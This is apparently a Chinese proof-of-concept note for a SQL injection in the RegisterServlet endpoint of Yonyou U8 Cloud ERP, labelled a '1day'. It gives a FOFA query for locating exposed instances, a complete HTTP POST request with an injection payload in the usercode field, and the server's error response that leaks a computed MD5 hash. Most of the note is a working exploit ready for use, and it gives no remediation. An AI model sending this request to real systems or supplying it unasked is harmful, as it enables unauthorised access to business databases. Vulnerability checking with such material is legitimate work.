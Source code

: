 ## 用友U8-cloud RegisterServlet接口存在SQL注入漏洞
U8 Cloud是用友公司推出的企业上云数字化平台，为成长型和创新型企业提供全面的云ERP解决方案。

U8 cloud不同于传统的ERP，融合了交易、服务、管理于一体的整体解决方案。U8 cloud集中于企业内部管理管控，管理，规范、高效、协同、透明。通过云模式，低成本，快速部署，即租即用的帮助企业免除硬软件投入的快速搭建企业管理架构。通过云服务连接，业务模式、服务模式的经营创新。

该系统RegisterServlet接口存在SQL注入漏洞，并且属于1day状态。

## fofa
```
app="用友-U8-Cloud"
```

## poc
发送下面的poc，响应包返回123456 的md5为存在漏洞
```
POST /servlet/RegisterServlet HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Length: 85
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip

usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)>0--
```
返回
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 71Date: Mon, 13 Nov 2023 02:25:54 GMT
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=F66A9268A74114BADA7CB11346378B11.server;
Path=/; HttpOnly
Error:?? nvarchar ? 'e10adc3949ba59abbe56e057f20f883e' ??????? int ????
```
